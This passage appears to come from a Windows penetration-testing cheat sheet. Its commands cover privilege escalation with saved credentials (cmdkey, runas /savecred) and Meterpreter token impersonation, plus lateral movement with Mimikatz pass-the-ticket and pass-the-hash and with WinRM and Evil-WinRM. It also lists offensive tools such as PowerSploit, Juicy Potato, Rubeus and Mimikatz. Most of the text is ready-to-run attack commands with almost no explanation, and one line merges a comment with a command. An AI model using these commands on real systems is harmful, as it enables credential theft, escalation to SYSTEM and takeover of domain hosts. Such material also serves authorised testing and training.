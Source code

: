 ### Stored Credential
```bash
# To check if there is any stored keyscmdkey /list

# Using them
runas /user:administrator /savecred "cmd.exe /k whoami"
```

### Impersonating Tokens with meterpreter
```bash
use incognito
list_tokens -u
impersonate_token NT-AUTHORITY\System
```

### Tools

| Command  | Descriptions |
| -------- | ------------ |
| [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) | PowerSploit - A PowerShell Post-Exploitation Framework |
| [Sherlock](https://github.com/rasta-mouse/Sherlock) | PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities. |
| [Juicy Potato](https://github.com/ohpe/juicy-potato) | A sugared version of RottenPotatoNG, with a bit of juice, i.e. another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM. |
| [Rubeus](https://github.com/GhostPack/Rubeus) | Rubeus is a C# toolset for raw Kerberos interaction and abuses. |
| [Mimikatz](https://github.com/gentilkiwi/mimikatz) | mimikatz is a tool I've made to learn C and make somes experiments with Windows security.|

## Lateral Movement

### Mimikatz Ticket PTH

```bash
Enable-PSRemoting
mimikatz.exe '" kerberos:ptt C:\Users\Public\ticketname.kirbi"' "exit"
Enter-PSSession -ComputerName ECORP

Invoke-Mimikatz -Command '"sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:command"'
```

### WinRM

```bash
$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\VALUE', $pass)
Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }

# Evil-WinRM
ruby evil-winrm.rb -i 192.168.1.2 -u VALUE -p VALUE -r evil.corp
```

### Tools
